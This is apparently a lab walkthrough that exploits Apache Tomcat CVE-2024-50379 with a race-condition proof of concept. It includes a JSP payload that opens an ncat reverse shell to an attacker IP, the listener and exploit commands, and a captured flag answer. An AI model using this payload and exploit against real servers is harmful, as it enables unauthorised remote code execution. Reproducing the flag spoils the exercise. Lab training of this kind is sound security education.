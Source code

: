 **Modifying the Loop Counter**

The original PoC code repeats the `for` loop 10000 times in line 43. For better user experience and efficient results, we recommend lowering the number to 2000. The updated line is shown below:
```python
futures = []
for _ in range(2000):
futures.append(executor.submit( ... )

```

**Changing the Payload**

This PoC exploit uses a payload that opens `calc.exe`, as can be inferred from line 37. To simplify this exploitation, we have installed `ncat` on the MS Windows server. Therefore, we will replace the payload with another one that connects to the Attacker’s system. The commented-out payload and the new one are shown below.

```python
#payload_put = "aa<% Runtime.getRuntime().exec(\"calc.exe\");%>"


payload_put = "<%@ page import=\"java.io.*\" %><% Runtime.getRuntime().exec(\"cmd /c start ncat -e cmd.exe 10.10.77.187 8888\"); %>"
```


Before running this PoC, we need to listen for incoming connections. Let’s start `netcat` on the AttackBox using `netcat -lvnp 8888`.

This payload uses JSP’s `Runtime.getRuntime().exec()` to execute `cmd /c start ncat -e cmd.exe 10.10.77.187 8888`. As mentioned, this is possible because we have installed `ncat` for the purpose of this demonstration.

Next, on the AttackBox, we run the exploit with the command 

```shell
python3 ApachTomcat_CVE-2024-50379_ConditionalCompetitionToRce.py -u 10.10.161.103:8080
```

- **Note 1:** Running this command will display a message like `Checking http://10.10.161.103:8080/...`, and the terminal will stop showing updates for a few minutes. During this period, the exploit code sends many requests to overload the target server and successfully produce a race condition. Please wait as the script executes while watching the terminal running the `netcat -lvnp 8888` command. Patience is key.
- **Note 2:** Because this is a race condition exploit, you might need to repeat the PoC multiple times before succeeding.

When the exploit succeeds, a connection will be established with the listening `netcat`. The terminal below shows an example.

```
What are the contents of the `flag.txt` file on the `C:\` drive?

cd C:\
dir
more flag.txt

THM{M9bN6cF3}

```
